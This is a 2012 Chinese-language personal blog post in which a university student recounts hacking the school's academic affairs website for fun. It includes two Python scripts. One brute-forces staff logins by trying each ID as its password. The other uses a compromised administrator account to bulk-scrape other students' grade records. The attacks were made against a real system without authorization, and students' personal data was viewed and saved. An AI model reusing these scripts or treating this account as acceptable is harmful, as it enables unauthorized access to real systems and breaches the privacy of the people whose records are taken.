 ```yaml
---
author: admin
comments: true
date: 2012-07-04 16:14:02+00:00
layout: post
slug: '%e7%bd%91%e7%bb%9c%e6%94%bb%e9%98%b2%e4%b8%8epython'
title: 网络攻防与Python
wordpress_id: 86
categories:
- IT
- Life
- njust
- Python
tags:
- life
- njust
- python
- 黑客
---
```


上个学期学《网络攻防》，《信息安全》。发现自己对网络攻防、信息安全这方面内容还真的挺感兴趣的。
说来也是，学计算机的，谁小时候没有一个黑客梦呢！





然后就开始研究了啊。趁着有兴趣的时候。





先去搞了CSDN的500万密码，然后开始把密码删选，把最常出现的几千个搞出来，然后跟崔嵬学习了一下对网站结构的分析之类的。再然后就发现了，还是学校教务处网站比较简单，哈哈，就拿学校教务处网站开工练手了。





记得第一个爆出密码来的同学是一个女生，成绩非常好，名字也挺好的，跟小说《诛仙》里一个人物的名相同，后来还认识了，算是挺有缘分的~哈哈~~





当时先是把所有学号和密码相同的同学爆了一遍，后来发现不过瘾，把生日密码来尝试了一下，再后来就发现，这样一个一个爆密码实在太慢了。而且当时跟崔嵬学的是用java这个语言来做网络尝试登录，暴力破解密码，java的速度本来就比较慢。





接下来沉寂了大概一两周，但是心里一直想着这个事情，就不停的学这方面内容了。





再后来，通过别的同学，就知道了很多信息和内容。
就换了一种方式，知道了要爆教务处管理人员的账号和密码，这样的话，一下子就可以查询到所有同学的信息了。
然后语言也换成了黑客界的基本常用语言——python，这下，瞬间有种鸟枪换炮的感觉了啊。





这是暴力教务处账号和密码的python脚本。出于对学校的尊重，这里把登录网址删掉了。




{% codeblock %}

import time
import urllib2
import urllib
import re

print "Loading…."
cookies = urllib2.HTTPCookieProcessor()
opener = urllib2.build_opener(cookies)
urllib2.install_opener(opener)

print "Loading…."

stu = [];
for bj in range(10000,14000) :
fm = ""
if bj<10:
fm = "0000%d"%(bj)
elif bj<100:
fm = "000%d"%(bj)
elif bj<1000:
fm = "00%d"%(bj)
else :
fm = "0%d"%(bj)
stu.append(fm)

digs = re.compile(‘

#### 姓名：(.*)，单位：(.*)，职称：(.*)

  
’)

for i in range(1,4000):
params = {‘stuid’:stu[i],’pwd’:stu[i]}
loginUrl = ‘http://管理人员登录网址’
login = urllib2.urlopen(loginUrl,urllib.urlencode(params))
while(True):
var = login.readline()
a = digs.match(var)
if a is not None :
print stu[i],
print a.group(1),
print a.group(2),
print a.group(3)
if var == "":break;
if i%300 == 0:
print "%d finished"%(i)
print "all scan finished"

{% endcodeblock %}




然后果然爆出来一大批懒得改密码的老师的账号。





接下来就用这些账号登录啦。有了这些账号后，几乎大部分同学的学习成绩信息都能知道了，当然，我只是为了好玩，真正看了信息的，也没几个。





然后就做了一个抓网页的代码，算是练练手，多写写python




{% codeblock %}

# -*- coding: cp936 -*-
import time
import urllib2
import urllib
import re

print "Loading…."
cookies = urllib2.HTTPCookieProcessor()
opener = urllib2.build_opener(cookies)
urllib2.install_opener(opener)
params = {‘stuid’:'账号’,'pwd’:'密码’}
loginUrl = ‘http://管理员登录网址’
login = urllib2.urlopen(loginUrl,urllib.urlencode(params))
var = login.read();
#print var

loginUrl = ‘成绩查询的网址’

stu = [];
for bj in range(1,7) :
for stuid in range(1,51) :
fm = "查询学号的前缀%d"%(bj)
if stuid<10 :
fm = "%s0%d"%(fm,stuid)
else:
fm = "%s%d"%(fm,stuid)
stu.append(fm)

#jd = re.compile(”’目前该生所有已修课程的平均学分绩点：(.*)”’)
digs = re.compile(”’<tr >(.*\n.*)
<td bgcolor="#eeeeee" align="center" >(.*)
</td>(.*\n.*)
<td bgcolor="#eeeeee" align="center" width="63" >(.*)
</td>(.*\n.*)
<td bgcolor="#eeeeee" align="center" width="68" >(.*)
</td>(.*\n.*)
<td bgcolor="#eeeeee" align="center" width="219" >(.*)
</td>(.*\n.*)
<td bgcolor="#eeeeee" align="center" width="35" >(.*)
</td>(.*\n.*)
<td bgcolor="#eeeeee" align="center" width="52" >(.*)
</td>(.*\n.*)
<td bgcolor="#eeeeee" align="center" width="56" >(.*)
</td>(.*\n.*)</tr>”’)

fileHandle = open (’09.txt’, ‘w’)
for i in range(0,300) :
params = {‘p_xh’:stu[i]}
login = urllib2.urlopen(loginUrl,urllib.urlencode(params))
var = login.read();
# b = jd.match(var)
# fileHandle.write("%s\n"%(b.group(1)))
a = digs.findall(var)
l = len(a)
for pi in range(0,l):
for j in range(1,8):
fileHandle.write(a[pi][2*j-1]+" ")
fileHandle.write("\n")
print stu[i]+"SUCCEED"
fileHandle.close()

{% endcodeblock %}




然后就到此收手了。





最后其实挺诧异的，网络攻防和信息安全这么好玩的两门课，最后考试的内容，竟然是背书，真的掉了一地的眼镜啊。
然后就背啊背啊，一直背到考试。
那天考试的时候肚子疼，写了四十分钟，该写的也都写出来了，正好交了卷出去上厕所。只记得交卷的时候，背后一片“卧槽”的声音，不知道是想表达什么。。。
然后我后来才知道，等我交了卷以后，教我们的老师就开始“黑”我了，说是这个同学考的非常差，估计要过都危险。
我还能说什么呢？最后成绩出来确实不高，78。另外一门信息安全79.5。唉，都是蛋疼的分数。
也罢，本来大学里嘛，学学玩玩，七八十分也就够了。
但是可惜的是，这么好玩的课，考试的时候本不该这么庸俗的，这里可是大学啊！
要是最后考试的内容是让大家一起来做个带数据库的网站，互相攻击，看获取的信息量和防御了多少强度的攻击来作为考核，那该多好玩啊。
这样也可以让我这样的“估计过都危险”的底分户，跟比我高的那些大牛们交流学习一番啊。
这么好的机会，可惜了。。。
唉！我的njust~



